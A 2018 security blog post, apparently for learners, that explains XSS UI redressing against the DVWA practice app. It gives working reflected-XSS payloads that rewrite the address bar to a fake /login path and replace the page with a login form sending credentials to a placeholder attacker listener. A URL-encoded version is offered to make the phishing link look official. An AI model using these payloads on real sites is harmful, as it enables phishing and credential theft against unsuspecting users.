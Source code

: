 ```yaml
---
title: "xss_ui_redressing"
date: 2018-11-28
tags: ["web"]
categories: ["web"]
aliases: ["/xss-ui-redressing"]
author: "Travis"
summary: "Moving beyond document.cookie xss and rewriting the entire browser window"
---
```

---

### Moving Beyond alert('xss')

Most people know all about making an alert box pop or getting a cookie sent to an external site with `document.cookie`. It makes since, it is easy to demo and for the most part makes for a great proof of concept.

Unfortunately these sometimes fail to showcase some of the more potentially devious outcomes from having a site that is vulnerable to XSS.

I recently came across a form of XSS that is called ui redressing. As I researched and learned more about it I came to see how malicious a XSS attack could be.

---

### What is UI Redressing?

Redressing leverages features of html5 to call the history.replaceState or history.pushState functions to the browser. These functions allow a script to re-write what is presented in the URL bar after a page has loaded.

A script, rewrites the url presented in the address bar after loading the page. I'll let that sink in for a minute. I first came across this method randomly on [swisskeyrepo/PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection#ui-redressing) xss injection GitHub page.

From the example on the swisskyrepo's page history.replaceState() is leveraged to replace the page with a /login.

*Note: history.pushState() could also be used.*

When the script is ran the url bar will be re-written from:

```
http://dvwa/vulnerabilities/xss_r/?name=yogi#
```

to something a bit more devious:

```
http://dvwa/login
```

So what? Whats the big deal, the url is re-written but the page is still the page it should be. Right? Maybe, unless the page gets changed with the document.body.innerHTML property....

---

### In Practice

Up until this point we have seen how UI redressing can be used to change the address bar. Let's leverage that and also re-write the html page to something a little bit more fitting of a login url. Using the script below we can change the URL to http://dvwa/login and also create a new html page for it with document.body.innerHTML.

```html
<script>
history.replaceState(null, null, '../../../login');
document.body.innerHTML = "</br></br></br></br></br><center><h2>Please login to acces
s secure portion of our site.</h2><form action='http://SomeMaliciousListener'>Usernam
e: <input type='text'>Password: <input type='password'><input value='submit' type='su
bmit'></form>"
</script>
```

That's it. We can send a Phishing email with a url that is vulnerable to a reflected XSS and include that code as our payload.

```html
http://dvwa/vulnerabilities/xss_r/?name=<script>history.replaceState(null, null, '../../../login');document.body.innerHTML = "</br></br></br></br></br><center><h2>Please login to access secure portion of our site.</h2><form action='http://SomeMaliciousListener'>Username: <input type='text'>Password: <input type='password'><input value='submit' type='submit'></form>"</script>
```

Even though the page that is expected to load looks similar to this:

![UI Redressing 1](images/xssuiredressing1.png "img-fluid")


When the victim clicks the link the login page below will load:

![UI Redressing 2](images/xssuiredressing2.png "img-fluid")

What about site certificates? It is not a problem. The victim is still on the real site. They are just at a destination that does not really exist except for them.

Wont they notice something weird about the url? Perhaps, I do not recommend sending a url that is full of html and javascript code. URL encoding it to something like this is much more favorable.

```
http://dvwa/vulnerabilities/xss_r/?name=%3c%73%63%72%69%70%74%3e%68%69%73%74%6f%72%79%2e%72%65%70%6c%61%63%65%53%74%61%74%65%28%6e%75%6c%6c%2c%20%6e%75%6c%6c%2c%20%27%2e%2e%2f%2e%2e%2f%2e%2e%2f%6c%6f%67%69%6e%27%29%3b%64%6f%63%75%6d%65%6e%74%2e%62%6f%64%79%2e%69%6e%6e%65%72%48%54%4d%4c%20%3d%20%22%3c%2f%62%72%3e%3c%2f%62%72%3e%3c%2f%62%72%3e%3c%2f%62%72%3e%3c%2f%62%72%3e%3c%63%65%6e%74%65%72%3e%3c%68%32%3e%50%6c%65%61%73%65%20%6c%6f%67%69%6e%20%74%6f%20%61%63%63%65%73%73%20%73%65%63%75%72%65%20%70%6f%72%74%69%6f%6e%20%6f%66%20%6f%75%72%20%73%69%74%65%2e%3c%2f%68%32%3e%3c%66%6f%72%6d%20%61%63%74%69%6f%6e%3d%27%68%74%74%70%3a%2f%2f%53%6f%6d%65%4d%61%6c%69%63%69%6f%75%73%4c%69%73%74%65%6e%65%72%27%3e%55%73%65%72%6e%61%6d%65%3a%20%3c%69%6e%70%75%74%20%74%79%70%65%3d%27%74%65%78%74%27%3e%50%61%73%73%77%6f%72%64%3a%20%3c%69%6e%70%75%74%20%74%79%70%65%3d%27%70%61%73%73%77%6f%72%64%27%3e%3c%69%6e%70%75%74%20%76%61%6c%75%65%3d%27%73%75%62%6d%69%74%27%20%74%79%70%65%3d%27%73%75%62%6d%69%74%27%3e%3c%2f%66%6f%72%6d%3e%22%3c%2f%73%63%72%69%70%74%3e
```

This url looks much more 'official'. I imagine most people would see this url and think: *"oh, just your typical super long url, much be official. Let me check my training. Yup goes to the domain I expect, yup certificate is valid, must be a real site. Safe to login."* I think that the long url lends itself towards being perceived as more legitimate.